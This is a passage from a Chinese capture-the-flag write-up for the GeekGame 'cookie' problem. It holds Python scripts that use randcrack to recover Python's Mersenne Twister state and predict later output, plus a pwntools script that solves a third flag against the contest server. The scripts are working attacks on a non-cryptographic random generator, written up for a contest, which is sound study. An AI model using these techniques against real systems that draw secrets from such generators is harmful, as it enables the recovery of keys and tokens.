    谢谢喵
```

### prob08-cookie 小章鱼的曲奇 [Algorithm]

​		全场最奇异搞笑的题，没有之一。

#### flag1:

​		给出了 python randbytes 生成的前 2500 个字节，需要预测接下来的数据。

​		查了一下，使用 randcrack 包可以实现该功能，只需要提交 624 个 32 位整数（2496 字节）即可预测随机数。

```python
from random import Random
from randcrack import RandCrack

rc = RandCrack()

with open("password1.txt", "r") as f:
    password = f.read()

for i in range(624):
    dword = password[i * 8: (i + 1) * 8]
    int32 = dword[6:8]+dword[4:6]+dword[2:4]+dword[0:2]
    int32 = int(int32, 16)
    rc.submit(int32)

stream = password[:624 * 8]
while (len(stream) < len(password)):
    int32 = rc.predict_getrandbits(32)
    int32 = '{:08x}'.format(int32)
    stream += int32[6:8]+int32[4:6]+int32[2:4]+int32[0:2]

print(len(password))

b = []
for i in range(5000, len(password), 2):
    byte = int(password[i:i+2],16) ^ int(stream[i:i+2],16)
    b += [byte]

print(bytes(b))
```

#### flag2:

​		发现它把 void1, void2 整体生成了若干个字节，我本来的想法是枚举这个生成的次数，然后预测。

​		结果发现不管提前生成多少都能成功预测，可能是种子与生成的随机数有一种同态的关系（

```python
from random import Random
from randcrack import RandCrack

with open("password2.txt", "r") as f:
    seed1, seed2, praw = f.read().split()

void1 = Random(int(seed1, 16))
void2 = Random(int(seed2, 16))

password = b''
for i in range(0, len(praw), 2):
    password += int(praw[i:i+2], 16).to_bytes(length=1,byteorder='little')

print(password)

gen = []
n = (1 << 22) + 6000

A = void1.randbytes(n)
B = void2.randbytes(n)

C = [x ^ y for x, y in zip(A, B)]

answer = b''

for start in range(0, (1 << 22) + 1, 1):
    if (start % 1000 == 0):
        print("now: ", start)
    rc = RandCrack()
    for p in range(0, 2496, 4):
        ab = int.from_bytes(C[p+start:p+start+4],byteorder='little')
        abc = int.from_bytes(password[p:p+4], byteorder='little')
        rc.submit(ab ^ abc)
    next_ab = int.from_bytes(C[start+2496:start+2500],byteorder='little')
    predict_c = rc.predict_getrandbits(32)
    next_abc = int.from_bytes(password[2496:2500], byteorder='little')
    if next_ab ^ predict_c == next_abc:
        print("found!", start, len(password))
        for i in range(2500, len(password), 4):
            next_ab = int.from_bytes(C[start+i:start+i+4],byteorder='little')
            next_c  = rc.predict_getrandbits(32)
            next_abc = int.from_bytes(password[i:i+4], byteorder='little')
            int32 = next_ab ^ next_c ^ next_abc
            answer += int32.to_bytes(length=4,byteorder='little')
        print(answer)
        exit(0)
```

#### flag3:

​		这题更是重量级，观察代码，发现只要把给出的数据在 10 秒内输回去即可。出题人的疏忽让我们直接少做一个题。

```python
from pwn import *

ip = "prob08.geekgame.pku.edu.cn"
port = 10008
token = b"9:How do you know my uid is 9"

r = remote(ip, port)
r.sendline(token)

print(r.recv())
r.sendline(b'3')
s = r.recvuntil('>')
s = s[s.find(b'<')+1:s.find(b'>')]
s = s.replace(b"0x",b'')

r.sendline(s)
r.interactive()
```

### 总结

​		~~题出的好！难度适中，覆盖知识点广，题目又着切合实际的背景，解法比较自然。
给出题人点赞 ！~~

​		总体来讲还是很有意思的，题面有梗，题目难度有梯度，非常适合~~休闲娱乐~~爆肝。

​		本萌新也是在这里第一次做出 pwn 题~~（享受攻入后台的快感）~~。

​		明年一定还来！